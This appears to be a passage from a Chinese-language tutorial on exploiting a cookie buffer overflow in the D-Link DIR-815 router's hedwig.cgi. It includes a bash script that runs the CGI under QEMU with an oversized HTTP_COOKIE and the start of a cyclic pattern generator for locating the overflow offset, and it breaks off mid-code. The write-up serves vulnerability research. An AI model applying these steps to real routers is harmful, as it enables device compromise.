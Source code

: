 如果不是qemu-mipsel-static还需要用ldd查看相关依赖，然后把依赖复制到各自指定的位置；

配置调试脚本；

```bash
#!/bin/bash
# tool.sh
TEST=$(python -c "print 'uid=' + open('content','r').read(2000)")
# TEST=$(python -c "print 'uid=' + 'A' * ? + 'B' * 4")
# TEST=$(python -c "print 'uid=' + open('exploit','r').read()")
LEN=$(echo -n "$TEST" | wc -c)
PORT="6666"
sudo chroot . ./qemu-mipsel-static -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="appliaction/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$TEST -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi 
echo "[+] END"
```

通过exploit-db获知，漏洞产生的原因是由于Cookie的值超出了长度，通过`char *getenv("HTTP_COOKIE")`在CGI脚本中获取用户输入的Cookie值，因此需要搜索该字符串，并且定位出现问题的代码地址；

![](./router-vuln-D-link-Dir815/HTTP_COOKIE.jpg)

通过搜索后可以看到，`sess_get_uid`函数引用了该字符串，找到了函数被调用的地址，下面还有`sprintf`危险函数的存在；

在`0x00409680`的`jalr $t9`处下断点，此时还未进入sprintf函数；

### 调试

使用脚本patternLocOffset.py生成数据文件content；

```python
# coding:utf-8
'''
生成定位字符串：轮子直接使用
'''
 
import argparse
import struct
import binascii
import string
import sys
import re
import time
a ="ABCDEFGHIJKLMNOPQRSTUVWXYZ"
b ="abcdefghijklmnopqrstuvwxyz"
c = "0123456789"
def generate(count,output):
    # pattern create
    codeStr =''
    print '[*] Create pattern string contains %d characters'%count
    timeStart = time.time()
    for i in range(0,count):
        codeStr += a[i/(26*10)] + b[(i%(26*10))/10] + c[i%(26*10)%10]
```
